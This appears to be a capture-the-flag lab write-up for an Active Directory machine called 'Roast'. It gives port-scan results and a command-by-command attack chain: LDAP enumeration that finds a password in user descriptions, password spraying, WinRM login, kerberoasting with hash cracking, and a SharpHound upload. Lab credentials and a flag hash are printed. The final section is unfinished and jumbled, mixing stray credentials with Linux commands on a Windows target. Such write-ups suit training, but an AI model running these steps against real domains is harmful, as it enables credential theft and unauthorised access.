

# Roast

**IP Address:** 172.31.3.2

## Enumeration
### Open Ports
| Port | State | Service | Version |
|------|-------|---------|---------|
| 135/tcp | open | msrpc | Microsoft Windows RPC  |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn  |
| 3268/tcp | open | ldap | Microsoft Windows Active Directory LDAP  |
| 3269/tcp | open | tcpwrapped |   |
| 3389/tcp | open | ms-wbt-server | Microsoft Terminal Services  |
| 389/tcp | open | ldap | Microsoft Windows Active Directory LDAP  |
| 445/tcp | open | microsoft-ds |   |
| 464/tcp | open | kpasswd5 |   |
| 49666/tcp | open | msrpc | Microsoft Windows RPC  |
| 49669/tcp | open | msrpc | Microsoft Windows RPC  |
| 49672/tcp | open | ncacn_http | Microsoft Windows RPC over HTTP 1.0 |
| 49673/tcp | open | msrpc | Microsoft Windows RPC  |
| 49677/tcp | open | msrpc | Microsoft Windows RPC  |
| 49698/tcp | open | msrpc | Microsoft Windows RPC  |
| 49753/tcp | open | msrpc | Microsoft Windows RPC  |
| 53/tcp | open | domain | Simple DNS Plus  |
| 593/tcp | open | ncacn_http | Microsoft Windows RPC over HTTP 1.0 |
| 5985/tcp | open | http | Microsoft HTTPAPI httpd 2.0 |
| 636/tcp | open | tcpwrapped |   |
| 88/tcp | open | kerberos-sec | Microsoft Windows Kerberos  |
| 9389/tcp | open | mc-nmf | .NET Message Framing  |
| 123/udp | open | ntp | NTP v3 |
| 137/udp | open | netbios-ns | Microsoft Windows netbios-ns  |
| 53/udp | open | domain |   |

## Exploitation
### Exploit Details (Found Credentials)
* **Name** - Found Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. Searching AD shows us a list of username & a description that contains a password. 

Commands
```
ldapsearch -v -x -b "DC=roast,DC=csl" -H "ldap://$ip" | grep 'sAMAccountName\|description'
```


2. First we create a users.txt file with the 3 names that were found previously and then spray the password at all 3 accounts to see if there is a match. We get a hit with the crhodes user account. 

Commands
```
crackmapexec winrm -u users.txt -p WelcomeToR04st -d roast.csl $ip
```


3. We can use the credentials to login as the user. Once we are logged in we can see another user in the Users directory. 

Commands
```
evil-winrm -i $ip -u crhodes -p WelcomeToR04st
dir C:\Users\
```



4. Run kerberoast to get additional credentials

Commands
```
python2 /opt/impacket/examples/GetUserSPNs.py roast.csl/crhodes -outputfile hash
WelcomeToR04st
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```


5. Login using the new credentials and read access.txt

Commands
```
evil-winrm -i $ip -u roastsvc -p '!!!watermelon245'
type ..\Desktop\access.txt
```


## Privilege Escalation
### Exploit Details ()
* **Name** - 
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. Run bloodhound under the roastsvc account. 

Commands
```
upload /home/kali/share/windows/privesc/SharpHound.exe
.\SharpHound.exe
download 
```


GetUserSPNs.py roast.csl/crhodes:WelcomeToR04st -dc-ip $ip -request

roastsvc
!!!watermelon245
!!!watermelon245

python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip $ip roast.csl/crhodes -outputfile hashes


Commands
```bash
whoami
cat /root/proof.txt
```


## Loot
```
access.txt
0042894e0a6b2bc2c4517c5f7ccc5c16
proof.txt

```